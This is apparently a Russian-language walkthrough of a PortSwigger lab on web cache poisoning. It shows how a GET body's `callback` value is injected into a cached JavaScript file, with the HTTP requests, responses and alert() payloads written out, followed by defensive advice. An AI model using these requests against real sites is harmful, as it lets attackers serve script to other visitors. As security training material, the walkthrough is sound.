





очень редко - но бывает, что гет принимает параметры ()
```http
GET /?param=innocent HTTP/1.1 
… 
param=bad-stuff-here
```

лаба https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get

задание: нужно отравить кеш главной страницы так, что вызывался алерт alert(1)
ну я так понимаю, что здесь гет протокол будет принимать параметры как пост

--------

вот запрос/ответ на главн стр
```http
GET / HTTP/2
Host: 0a84003604db278b8346143900d4001e.web-security-academy.net
Cookie: country=[object Object]
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a84003604db278b8346143900d4001e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

в ответе в html есть это еще
```http
       <script type="text/javascript" src="/js/geolocate.js?callback=setCountryCookie"></script>
       
       это привлекает внимание еще и потому, что в куках указано Cookie: country=[object Object]
```




-------

по пути 
`GET /js/geolocate.js?callback=setCountryCookie HTTP/2`

лежит файл
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 9
X-Cache: hit
Content-Length: 201

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };

const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };

setCountryCookie({"country":"United Kingdom"});
```

-----------
делаю запрос `GET /?xxx=333 HTTP/2`
и в ответе получаю 
` <link rel="canonical" href='//0a84003604db278b8346143900d4001e.web-security-academy.net/?xxx=333'/>`




но в кеш это не сохраняется, т.е. при запросе `GET / HTTP/2` уже нет ничего подозрительного в ответах

-------

вот так  - никакой реакции нет
```http
GET / HTTP/2
Host: 0a84003604db278b8346143900d4001e.web-security-academy.net
Cookie: country=[object Object]
..
...
..
.
Content-Length: 7

xxx=333
```

-------
не слишком долго мучаясь, наткнулся на вот это





вот такой запрос 
```http
GET /js/geolocate.js?callback=setCountryCookie?xxx=339 HTTP/2
Host: 0a84003604db278b8346143900d4001e.web-security-academy.net
Cookie: country=[object Object]
...
..
.
Content-Length: 12

callback=334👈🍺🟢
```

и в ответе это 334 отразилось!
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Set-Cookie: session=STmhr2X2DmySzOvtA6TMBuEbJKio1gMa; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 188

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
334👈🍺🟢({"country":"United Kingdom"});
```

и  я вижу, что этот файл  /js/geolocate.js?callback=setCountryCookie вызывается при переходе на главную страницу!!!!! и если нет валидации, то я могу напрямую подставить js код туда

но пока что я еще не понял, как отравить сам кеш

-------

ладно, пока что попробую сделать из этого XSS

пробую
```http
GET /js/geolocate.js?callback=setCountryCookie?xxx=339 HTTP/2
....
callback=Function(xxx){("alert(77777)")}
```
ответ
```js
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };

Function("alert(77777)")({"country":"United Kingdom"});
```
то есть мои скобки изчезают, ; точка с запятой - тоже удаляется

------

#### пока я мучался - у меня получилось сохранить это дело в кеш 🥳 🥳 🥳

делаю гет запрос с параметром
`callback=alert({"hack":"huiack"})`
и вижу ответ:
```js
const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };

alert({"hack":"huiack"})

({"country":"United Kingdom"});
```

НО ВОТ ТУТ САМОЕ ВЕСЕЛОЕ

я делаю запрос с
`callback=alert({"1":"2"})`
но в ответе также есть этот "hack":"huiack" !!!!




но проблема в том, что даже если отравить параметром кеш и сделать обычный запрос
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a84003604db278b8346143900d4001e.web-security-academy.net
Cookie: country=[object Object]
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a84003604db278b8346143900d4001e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Length: 0


```
то в файле ничего лишнего не будет, там все как в оригинале

-----

еще наблюдение, если 
отправляю просто вот такой гет запрос
`GET /js/geolocate.js?callback=setCountryCookie?xxx=339 HTTP/2`
то отражается  `setCountryCookie?xxx=339({"country":"United Kingdom"}`
и если после сохранения (в течении 35 сек) я отправляю запрос 

```http
GET /js/geolocate.js?callback=setCountryCookie?xxx=339 HTTP/2
...
callback=alert({"1":"2"})
```

то в ответе отражается только  `setCountryCookie?xxx=339({"country":"United Kingdom"}`

НО если первым сохраняю 
```http
GET /js/geolocate.js?callback=setCountryCookie?xxx=339 HTTP/2
...
callback=alert({"1":"2"})
```
то в ответе 339 не отображается, отобразается только 
```js
alert({"1":"2"}
```

и одно без другого не работает

-------

пробую оба отправить одновременно
```http
GET /js/geolocate.js?callback=alert({"1":"2"}) HTTP/2
...
...
...
callback=alert({"1":"2"})
```
в ответе отражается - alert({"1":"2"} - но не сохраняется в кеш


-----
сработало !!!!! ура!!!!!! епта!!!!!

вот так отправляю запрос:
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
...
callback=alert(777)
```
потом отправляю
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
...
без доп парамтера уже
```
и вуаля, в ответ сохранился `alert(777)({"country":"United Kingdom"}`




и даже лаба сама резко решилась ))

------

#### суть + выводы

скрипт `/js/geolocate.js` принимает параметр `callback` и выполняет его как функцию. 

Разработчик реализовал поддержку fat get запросов - сервер умеет читать параметры из тела гет-запроса, но кэш использует для формирования ключа только строку запроса из url

я отправил запрос к `/js/geolocate.js?callback=setCountryCookie` с телом `callback=alert(777)`,  кэш проигнорировал тело и сформировал ключ на основе `callback=setCountryCookie` из url

бэкенд прочитал параметр из тела, перезаписал им значение из url, и вернул ответ с `alert(777)({"country":"United Kingdom"})`. кэш сохранил этот ответ под ключом от чистого url без тела
(то есть URL один и тот же, но при этом, в кеш сохраняется тело запроса!!!!)

после этого любой пользователь, заходящий на главную страницу (в теч 35 сек после отравления), получал отравленный скрипт из кэша. правда `alert(777)({...})` не выполнялся корректно из-за синтаксической ошибки, но лаба засчитала решение вероятно потому, что сам факт подмены функции был доказан. для реального xss нужно было передавать `callback=alert` - чтобы получить `alert({"country":"United Kingdom"})` или `callback=alert.bind(window,777)`для чистого срабатывания

#### как защититься

1 - не реализовывать поддержку тела в гет-запросах если в этом нет острой необходимости, так как это создает расхождение между тем как кэш и приложение обрабатывают запрос, либо настроить что бек и кеш одинакого обрабатывали ключи кеша 

2 - если гет-запросы с телом все же нужны, то кэш должен учитывать в ключе либо хеш тела, либо явно исключать такие запросы из кэширования

3 - параметры, влияющие на выполнение кода, должны проходить валидацию по белому списку разрешенных значений, а не подставляться напрямую в ответ

4 - приоритет параметров должен быть единообразным - если и url и тело содержат один и тот же параметр, нужно четко определить какое значение имеет больший приоритет и документировать это поведение, чтобы оно не расходилось с логикой кэширования

такая же уяза была найдена не так давно на гит-хабе, награда была 10кило-баксов